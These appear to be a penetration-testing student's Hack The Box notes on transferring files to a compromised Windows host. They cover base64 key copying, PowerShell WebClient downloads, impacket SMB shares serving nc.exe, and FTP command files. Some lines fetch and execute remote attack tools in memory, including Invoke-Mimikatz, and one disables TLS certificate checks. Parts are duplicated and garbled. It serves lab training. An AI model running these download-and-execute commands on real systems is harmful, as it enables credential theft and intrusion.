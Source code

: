 Astaroth attack (fileless threat) - a malicious link with LNK file is double clicked > execute WMIC tool with /Format > download malicious javascript > javascript downloads payloads abusing Bitsadmin tool.

![image](Exported%20image%2020240712140343-0.png)  

Examples:  
We have access to MS02 and need to download from Pwnbox.

![image](Exported%20image%2020240712140343-1.png)  

1. Powershell Base64 Encode & Decode
    
    1. Check SSH Key Hash
    
    ```
    burray@htb[/htb]$md5sum id_rsa  
    4e301756a07ded0a2dd6953abf015278  id_rsa
    
    catid_rsa |base64 -w 0;echo
     We can then copy the output to powershell and decode
    PS C:\htb> [IO.File]::WriteAllBytes("C:\Users\Public\id_rsa", [Convert]::FromBase64String("{OUTPUT}")
    The Get-FileHash cmdlet does the same thing md5sum does
    PS C:\htb> Get-FileHash C:\Users\Public\id_rsa -Algorithm md5
    Powershell Web Downloads
    In any version of PowerShell the System.Net.WebClient call can be used to download a file over HTTP, HTTPS, or FTP. Below are methods for the class for downloading data.
    File Download
    PS C:\htb> # Example: (New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')  
    PS C:\htb> # Example: (New-Object Net.WebClient).DownloadFileAsync('<Target File URL>','<Output File Name>')
    
    PS C:\htb> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')  
    Or using curl  
    PS C:\htb> Invoke-WebRequest [https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1) -UseBasicParsing -OutFile PowerView.ps1  
    (you may have to set PS C:\htb>[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true} to avoid SSL/TLS cert issues)
    
    SMB Downloads
    We can create an smbserver.py on our machine to use copy, move, and other tools
    
    Step 1. Create SMB Server  
    burray@htb[/htb]$sudoimpacket-smbserver share -smb2support /tmp/smbshare  
    Step 2. Copy File from server  
    C:\htb> copy [\\192.168.220.133\share\nc.exe](file:///\\192.168.220.133\share\nc.exe)  
    If windows blocks the connection we can set a user/pass on the server and mount it to windows  
    Step 2a. Create SMB Server with user/pass  
    burray@htb[/htb]$sudoimpacket-smbserver share -smb2support /tmp/smbshare -user test-password test  
    Step 2b. Mount server  
    C:\htb> net use n: [\\192.168.220.133\share](file:///\\192.168.220.133\share) /user:test test
    
    burray@htb
    [/htb]
    $
    sudo
    impacket-smbserver share -smb2support /tmp/smbshare
    
    
    C:\htb> copy 
    \\192.168.220.133\share\nc.exe
    
    
    
    burray@htb
    [/htb]
    $
    sudo
    impacket-smbserver share -smb2support /tmp/smbshare -user 
    test
    -password 
    test
    
    
    C:\htb> net use n: 
    \\192.168.220.133\share
     /user:test test
    
    burray@htb
    [/htb]
    $
    sudo
    python3 -m pyftpdlib --port 
    21
    
    
    PS C:\htb> (New-Object Net.WebClient).DownloadFile('ftp://192.168.49.128/file.txt', 'C:\Users\Public\ftp-file.txt')
    
    
    C:\htb> echo open 192.168.49.128 > ftpcommand.txt
    ￼
    C:\htb> echo USER anonymous >> ftpcommand.txt
    ￼
    C:\htb> echo binary >> ftpcommand.txt
    ￼
    C:\htb> echo GET file.txt >> ftpcommand.txt
    ￼
    C:\htb> echo bye >> ftpcommand.txt
    ￼
    C:\htb> ftp -v -n -s:ftpcommand.txt
    ￼
    ftp> open 192.168.49.128
    ￼
    Log in with USER and PASS first.
    ￼
    ftp> USER anonymous
    ￼
    
    ftp> GET file.txt
    ￼
    ftp> bye
    ￼
    
    C:\htb>more file.txt
    ￼
    This is a test file
    
    
    
    
    
    
    
    
    
    
    
    
    ```
    
    3. Encode SSH Key to Base64
    
    catid_rsa |base64 -w 0;echo
    
    5. We can then copy the output to powershell and decode
    
    PS C:\htb> [IO.File]::WriteAllBytes("C:\Users\Public\id_rsa", [Convert]::FromBase64String("{OUTPUT}")
    
    7. The Get-FileHash cmdlet does the same thing md5sum does
    
    PS C:\htb> Get-FileHash C:\Users\Public\id_rsa -Algorithm md5
    
2. Powershell Web Downloads

In any version of PowerShell the System.Net.WebClient call can be used to download a file over HTTP, HTTPS, or FTP. Below are methods for the class for downloading data.

1. File Download

PS C:\htb> # Example: (New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')  
PS C:\htb> # Example: (New-Object Net.WebClient).DownloadFileAsync('<Target File URL>','<Output File Name>')

3. PowerShell DownloadString - Fileless Method

PS C:\htb> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')  
Or using curl  
PS C:\htb> Invoke-WebRequest [https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1) -UseBasicParsing -OutFile PowerView.ps1  
(you may have to set PS C:\htb>[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true} to avoid SSL/TLS cert issues)

5. SMB Downloads

We can create an smbserver.py on our machine to use copy, move, and other tools
 
Step 1. Create SMB Server  
burray@htb[/htb]$sudoimpacket-smbserver share -smb2support /tmp/smbshare  
Step 2. Copy File from server  
C:\htb> copy [\\192.168.220.133\share\nc.exe](file:///\\192.168.220.133\share\nc.exe)  
If windows blocks the connection we can set a user/pass on the server and mount it to windows  
Step 2a. Create SMB Server with user/pass  
burray@htb[/htb]$sudoimpacket-smbserver share -smb2support /tmp/smbshare -user test-password test  
Step 2b. Mount server  
C:\htb> net use n: [\\192.168.220.133\share](file:///\\192.168.220.133\share) /user:test test

9. FTP Downloads

Can use pyftpdlib to make an FTP server  
burray@htb[/htb]$sudopython3 -m pyftpdlib --port 21  
Then download with the Net.WebClient  
PS C:\htb> (New-Object Net.WebClient).DownloadFile('ftp://192.168.49.128/file.txt', 'C:\Users\Public\ftp-file.txt')
 
If we have a shell but not interactive we can create a command file for the client to download the target file.  
C:\htb> echo open 192.168.49.128 > ftpcommand.txt￼C:\htb> echo USER anonymous >> ftpcommand.txt￼C:\htb> echo binary >> ftpcommand.txt￼C:\htb> echo GET file.txt >> ftpcommand.txt￼C:\htb> echo bye >> ftpcommand.txt￼C:\htb> ftp -v -n -s:ftpcommand.txt￼ftp> open 192.168.49.128￼Log in with USER and PASS first.￼ftp> USER anonymous￼  
ftp> GET file.txt￼ftp> bye￼  
C:\htb>more file.txt￼This is a test file
 
If we access to a terminal we can encode a file to a base64 string then copy the output and do the reverse on our machine.

|
|
==Method== ==Description==
==[OpenRead](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.openread?view=net-6.0)== ==Returns the data from a resource as a [Stream](https://docs.microsoft.com/en-us/dotnet/api/system.io.stream?view=net-6.0).==
==[OpenReadAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.openreadasync?view=net-6.0)== ==Returns the data from a resource without blocking the calling thread.==
==[DownloadData](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloaddata?view=net-6.0)== ==Downloads data from a resource and returns a Byte array.==
==[DownloadDataAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloaddataasync?view=net-6.0)== ==Downloads data from a resource and returns a Byte array without blocking the calling thread.==
==[DownloadFile](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadfile?view=net-6.0)== ==Downloads data from a resource to a local file.==
==[DownloadFileAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadfileasync?view=net-6.0)== ==Downloads data from a resource to a local file without blocking the calling thread.==
==[DownloadString](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadstring?view=net-6.0)== ==Downloads a String from a resource and returns a String.==
==[DownloadStringAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadstringasync?view=net-6.0)== ==Downloads a String from a resource without blocking the calling thread.==